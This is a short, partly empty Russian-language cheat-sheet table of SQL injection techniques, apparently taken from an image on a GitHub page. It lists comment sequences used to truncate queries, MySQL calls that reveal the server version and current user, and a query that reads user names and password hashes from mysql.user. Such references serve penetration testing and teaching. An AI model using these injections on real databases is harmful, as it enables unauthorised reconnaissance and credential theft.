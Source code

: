 |    Тип SQL-инъекции        | Описание                      
|----------------|-------------------------------|
|Коментарии  | # /* -- - ;%00|   
|Получение версии | SELECT VERSION(); SELECT @@VERSION; SELECT @@GLOBAL.VERSION; |   
|Получение информации о пользователе | SELECT user() SELECT current_user() SELECT system_user() SELECT session_user() SELECT user,password FROM mysql.user;|   
| | |   
| | |   
| | |   
| | |   
